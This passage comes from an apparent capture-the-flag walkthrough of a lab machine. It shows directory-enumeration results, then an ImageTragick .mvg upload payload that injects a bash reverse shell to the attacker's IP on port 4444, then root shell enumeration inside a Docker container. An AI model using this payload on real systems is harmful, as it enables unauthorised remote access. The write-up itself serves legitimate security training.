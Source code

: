 ```bash
+ https://calvin.ariekei.htb/global.asax (CODE:403|SIZE:1618)                                                     
+ https://calvin.ariekei.htb/main.mdb (CODE:403|SIZE:1618)                                                        
+ https://calvin.ariekei.htb/php.ini (CODE:403|SIZE:1618)                                                         
+ https://calvin.ariekei.htb/production.log (CODE:403|SIZE:1618)                                                  
+ https://calvin.ariekei.htb/spamlog.log (CODE:403|SIZE:1618)                                                     
+ https://calvin.ariekei.htb/thumbs.db (CODE:403|SIZE:1618)                                                       
+ https://calvin.ariekei.htb/Thumbs.db (CODE:403|SIZE:1618)                                                       
+ https://calvin.ariekei.htb/upload (CODE:200|SIZE:1656)                                                          
+ https://calvin.ariekei.htb/WS_FTP.LOG (CODE:403|SIZE:1618)
```

we got to /uploads and there is a upload feature.

it appears to ask for an image to upload but we try to get around this. It looks like it could be vulnerable to an ImageTragik exploit. After alot of reasearch we develop a file with the extension .mvg which will hold or reverse shell exploit.mvg:

```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://"|setsid /bin/bash -i>/dev/tcp/your ip/4444 0<&1 2>&1")'ms
pop graphic-context
```

We then upload this with a listener on port 4444 and we get a shell back as root@calvin.

`cat /proc/1/group` shows that we are inside a doker container. This is worth noting for later.

We then head to enumerate files and we find something in `/common`.

```bash
[root@calvin /]# ls
ls
anaconda-post.log
app
bin
common
dev
etc
home
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
[root@calvin /]# cd common
cd common
[root@calvin common]# ls
ls
```